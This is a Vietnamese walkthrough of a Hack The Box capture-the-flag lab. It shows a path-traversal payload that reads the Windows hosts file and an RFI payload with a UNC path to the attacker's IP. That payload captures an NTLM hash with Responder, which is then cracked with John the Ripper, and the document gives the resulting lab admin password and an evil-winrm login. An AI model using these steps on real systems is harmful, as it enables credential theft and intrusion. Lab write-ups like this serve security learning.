## Task 1


Khi đăng nhập bằng IP thì sau một thời gian load sẽ nhận lại lỗi vì


> unika.htb
## Task 2


Chúng ta tiến hành add IP và domain này vào file host để truy cập vào server


Nhận được kết quả
> php
## Task 3


Để xem chuyện gì đang xảy ra thì chúng ta khởi động Burp để bắt các request khi đổi ngôn ngữ


Chúng ta xác định được parameter
> page
## Task 4


> ../../../../../../../../windows/system32/drivers/etc/hosts
## Task 5


> //10.10.14.6/somefile
## Task 6


> New Technology Lan Manager
## Task 7


> -I
## Task 8


> John The Ripper
## Task 9


Từ những gợi ý trên khả năng server đang bị dính RFI nên chúng ta thử bắt Responder trên interface Tun0 là ép server xác thực đến chúng ta
```bash
sudo responder -I tun0
```

Từ capture bắt được thử gửi gì đó đến server chúng ta đang listen


Kết quả sẽ trả về lỗi vì server request đến nhưng không có gì nhưng cái chúng ta cần là 


Tiến hành lưu lại và crack với worklist rockyou


Chúng ta thu được credential 
```
Administrator / Badminton
```

**Chuỗi sự kiện:**
1. Payload RFI của chúng ta không trỏ tới `http://` mà trỏ tới dạng UNC: `\\<IP_Responder>\share\payload.php` (hoặc `//<IP>/share/...` tùy ngôn ngữ/encoding).
2. Khi server đích (thường là PHP/IIS trên Windows, hoặc một service Windows nào đó xử lý include/open file) gọi hàm đọc file (`include()`, `fopen()`, `file_get_contents()`...) với đường dẫn đó, **Windows OS-level file I/O** không coi đây là request HTTP — nó coi đây là truy cập **SMB share** (giao thức file-sharing của Windows), vì cú pháp `\\host\share` chính là cách Windows resolve UNC path.
3. Để truy cập SMB share, Windows **tự động thực hiện authentication handshake** bằng tài khoản mà process đang chạy (ví dụ IIS App Pool identity, hoặc SYSTEM) — và cơ chế auth mặc định của SMB trên Windows là **NTLM** (SMB negotiate → NTLM nego → NTLM auth).
4. Responder của chúng ta đang listen trên các port SMB/HTTP/NetBIOS giả làm server hợp lệ, nên khi Windows “gõ cửa” share đó, Responder trả lời đúng protocol SMB và nhận được **NTLMv1/v2 challenge-response hash** của account đang chạy service — hoàn toàn tự động, không cần payload PHP/code thực thi gì cả.
## Task 10


Chúng ta vẫn chưa quét target để xem các port nào đang mở
```bash
sudo nmap --top-ports=1000 -T4 -sV -sC -Pn 10.129.95.234
```



Có vẻ port winrm đang được mở
> 5985
## Task 11


Thực hiện winrm vào server với thông tin thu được
```bash
evil-winrm -i 10.129.95.234 -u administrator -p badminton
```
Tìm thử trong máy có những user nào


> mike
## Flag


Chúng ta tìm được flag trên Desktop của mike

